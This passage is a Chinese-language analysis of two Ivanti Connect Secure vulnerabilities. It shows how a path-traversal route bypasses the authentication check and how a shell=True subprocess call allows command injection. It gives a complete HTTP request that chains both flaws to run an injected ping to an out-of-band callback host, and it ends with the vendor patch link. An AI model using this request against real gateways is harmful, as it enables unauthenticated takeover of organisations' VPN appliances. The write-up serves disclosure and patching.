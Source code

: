 可见，鉴权操作在`doAuthCheck` 函数中进行

找到 `doAuthCheck`函数进行分析，可以看到如下代码：

```plain
iVar8 = strncmp(pcVar7,"/api/v1/totp/user-backup-code",0x1d);
if (iVar8 == 0) {
    return true;
}
```

如果所访问的路由以 `/api/v1/totp/user-backup-code` 开头，则不需要鉴权，因而可以构造这样的路由：

```plain
/api/v1/totp/user-backup-code/../../{{evil}}
```

来实现鉴权的绕过

在项目源码中搜索 `os.system` 最终找到一个路由 `/api/v1/license/keys-status/<path:node_name>` 可以触发命令注入：

```plain
def get(self, url_suffix=None, node_name=None):
    if request.path.startswith("/api/v1/license/keys-status"):
        try:
            dsinstall = os.environ.get("DSINSTALL")
            if node_name == None:
                node_name = ""
            proc = subprocess.Popen(
                dsinstall
                + "/perl5/bin/perl"
                + " "
                + dsinstall
                + "/perl/getLicenseCapacity.pl"
                + " getLicenseKeys "
                + node_name,
                shell=True,
                stdout=subprocess.PIPE,
            )
```

因而可以构造这样的报文实现未授权命令注入：

```plain
GET /api/v1/totp/user-backup-code/../../license/keys-status/%3bping%20{{interactsh-url}}%3b HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate
```

# 0x05 漏洞修复

厂商已发布漏洞修复程序，请前往以下地址进行更新。  
[https://forums.ivanti.com/s/article/KB-CVE-2023-46805-Authentication-Bypass-CVE-2024-21887-Command-Injection-for-Ivanti-Connect-Secure-and-Ivanti-Policy-Secure-Gateways?language=en\_US](https://forums.ivanti.com/s/article/KB-CVE-2023-46805-Authentication-Bypass-CVE-2024-21887-Command-Injection-for-Ivanti-Connect-Secure-and-Ivanti-Policy-Secure-Gateways?language=en_US)
